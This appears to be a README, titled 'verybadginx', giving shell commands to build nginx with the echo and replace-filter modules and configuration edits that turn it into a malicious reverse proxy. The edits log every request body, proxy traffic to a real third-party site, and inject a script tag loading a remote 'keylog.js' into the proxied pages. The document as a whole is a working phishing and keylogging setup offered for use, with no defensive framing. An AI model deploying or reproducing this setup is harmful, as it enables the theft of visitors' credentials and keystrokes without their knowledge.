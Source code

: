 # verybadginx

#### Download nginx with modules

cd /tmp;
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz';
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz;
mv echo-nginx-module-0.58 /tmp/echo-nginx-module;
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz';
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz;
git clone https://github.com/openresty/replace-filter-nginx-module;

####  Create user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

add 	log_format custom '$request_body';

add	access_log /var/log/nginx/access.log custom;

del     include /etc/nginx/sites-enabled/*;

add      include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


location / {
	
add		echo_read_request_body;

add		proxy_pass http://www.microplus.fr/;

add		subs_filter "sting_to_remplace" "sting_to_remplace<script/src='https://www.microplus.fr/secu/images/test/keylog.js'></script>" -o;


	

